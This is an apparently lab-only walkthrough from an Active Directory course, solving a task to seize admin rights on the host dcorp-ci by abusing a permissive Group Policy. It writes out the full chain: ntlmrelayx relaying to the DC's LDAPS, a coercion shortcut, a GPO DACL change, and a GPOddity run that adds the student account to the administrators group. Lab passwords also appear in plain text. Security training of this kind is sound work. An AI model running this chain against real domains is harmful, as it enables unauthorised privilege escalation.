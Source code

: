 ```yaml
---
icon: vial
---
```


# 6 - Learning Object 6️

## Tasks



1 - Abuse an overly permissive Group Policy to get admin access on dcorp-ci.

Flag 9 \[Student VM] - Name of the Group Policy attribute that is modified 🚩



## Solutions

### 1 - Abuse an overly permissive Group Policy to get admin access on dcorp-ci.

Start InviShell and PowerView

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\Powerview.ps1
```

and check info regarding GPO for DCORP-CI

```powershell
Get-DomainGPO -ComputerIdentity DCORP-CI
```

```powershell
Exception calling "FindAll" with "0" argument(s): "There is no such object on the server.
"

flags                    : 0
displayname              : DevOps Policy
gpcmachineextensionnames : [{35378EAC-683F-11D2-A89A-00C04FBBCFA2}{D02B1F72-3407-48AE-BA88-E8213C6761F1}][{827D319E-6EAC-11D2-A4EA-00C04F79F83A}{803E14A0-B4FB-11D0-A0D0-00A0C90F574B}]
whenchanged              : 12/24/2024 7:09:01 AM
versionnumber            : 3
name                     : {0BF8D01C-1F62-4BDC-958C-57140B67D147}
cn                       : {0BF8D01C-1F62-4BDC-958C-57140B67D147}
usnchanged               : 296496
dscorepropagationdata    : {12/18/2024 7:31:56 AM, 1/1/1601 12:00:00 AM}
objectguid               : fc0df125-5e26-4794-93c7-e60c6eecb75f
gpcfilesyspath           : \\dollarcorp.moneycorp.local\SysVol\dollarcorp.moneycorp.local\Policies\{0BF8D01C-1F62-4BDC-958C-57140B67D147}
distinguishedname        : CN={0BF8D01C-1F62-4BDC-958C-57140B67D147},CN=Policies,CN=System,DC=dollarcorp,DC=moneycorp,DC=local
whencreated              : 12/18/2024 7:31:22 AM
showinadvancedviewonly   : True
usncreated               : 293100
gpcfunctionalityversion  : 2
instancetype             : 4
objectclass              : {top, container, groupPolicyContainer}
objectcategory           : CN=Group-Policy-Container,CN=Schema,CN=Configuration,DC=moneycorp,DC=local
```

It appartains to DevOps Policy, we can confirm it using `Get-DomainGPO -Identity 'DevOps Policy'` command.

Now, we need to run ntlmrelayx (regarding impacket tool) on windows machine (using **wsl.exe**), to relay the LDAP service on the DC: `sudo ntlmrelayx.py -t ldaps://<IP_DC> -wh <IP_VM> --http-port '80,8080' -i --no-smb-server`

{% hint style="info" %}
wsl psw is: WSLToTh3Rescue!
{% endhint %}

* I obtain DC's IP pinging it `ping DOLLARCORP.MONEYCORP.LOCAL` -> 172.16.2.1

```bash
sudo ntlmrelayx.py -t ldaps://172.16.2.1 -wh 172.16.100.67 --http-port '80,8080' -i --no-smb-server
```

<figure><img src="../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>

Now we need to establish the authentication on student machine, go there and create a Shortcut that connects to the ntlmrelayx listener:

* Go to C:\AD\Tools -> Right Click -> New -> Shortcut. Copy the following command in the Shortcut location -> Next and Save it as _studentx.lnk_

```powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -Command "Invoke-WebRequest -Uri 'http://172.16.100.67' -UseDefaultCredentials"
```

<figure><img src="../../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

Copy the studentx.lnk script to \\\dcorp-ci\AI\


```powershell
xcopy C:\AD\Tools\studentx.lnk \\dcorp-ci\AI
```

Run it with double click and we establish the connection:

<figure><img src="../../.gitbook/assets/image (131).png" alt=""><figcaption></figcaption></figure>

Now, we need to connect to this Ldap shell using `nc 127.0.0.1 11000` and assign it permissions regarding DevOps GPO: `{0BF8D01C-1F62-4BDC-958C-57140B67D147}`, do it using a new wsl shell:

```powershell
write_gpo_dacl student867 {0BF8D01C-1F62-4BDC-958C-57140B67D147}
```

<figure><img src="../../.gitbook/assets/image (130).png" alt=""><figcaption></figcaption></figure>

Stop the ldap shell and ntlmrelayx using Ctrl + C.

Now, we need to run the GPOddity command to create the new template:

<pre class="language-bash"><code class="lang-bash"><strong>cd /mnt/c/AD/Tools/GPOddity
</strong><strong>sudo python3 gpoddity.py --gpo-id '0BF8D01C-1F62-4BDC-958C-57140B67D147' --domain 'dollarcorp.moneycorp.local' --username 'student867' --password 'Ld7bTFyEd7Gc7UWn' --command 'net localgroup administrators student867 /add' --rogue-smbserver-ip '172.16.100.67' --rogue-smbserver-share 'std687-gp' --dc-ip '172.16.2.1' --smb-mode none
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (132).png" alt=""><figcaption></figcaption></figure>

Keep it running, meanwhile open another wsl shell and create and share the std687-gp directory:

```bash
mkdir /mnt/c/AD/Tools/std687-gp
cp -r /mnt/c/AD/Tools/GPOddity/GPT_Out/* /mnt/c/AD/Tools/std687-gp
```

Great, now open a new windows shell as administrator to create a share (std687-gp) ad assign privileges for everyone:&#x20;

```powershell
net share std687-gp=C:\AD\Tools\std687-gp /grant:Everyone,Full
icacls "C:\AD\Tools\std867-gp" /grant Everyone:F /T
```

<div align="left"><figure><img src="../../.gitbook/assets/image (134).png" alt=""><figcaption></figcaption></figure></div>

<div align="left"><figure><img src="../../.gitbook/assets/image (133).png" alt=""><figcaption></figcaption></figure></div>

Now, we can verify if the gPCfileSysPath has been modified for the DevOps Policy running this command:

<figure><img src="../../.gitbook/assets/image (135).png" alt=""><figcaption></figcaption></figure>

The update for this policy is configured to be every 2 minutes in the lab and after waiting for 2 minutes, student867 should be added to the local administrators group on dcorp-ci:

```powershell
winrs -r:dcorp-ci cmd /c "set computername && set username"
```

<figure><img src="../../.gitbook/assets/image (136).png" alt=""><figcaption></figcaption></figure>

### Flag 9 \[Student VM] - Name of the Group Policy attribute that is modified 🚩

The GPO attributed modified on DevOps Policy is: gPCfileSysPath

<figure><img src="../../.gitbook/assets/image (135).png" alt=""><figcaption></figcaption></figure>
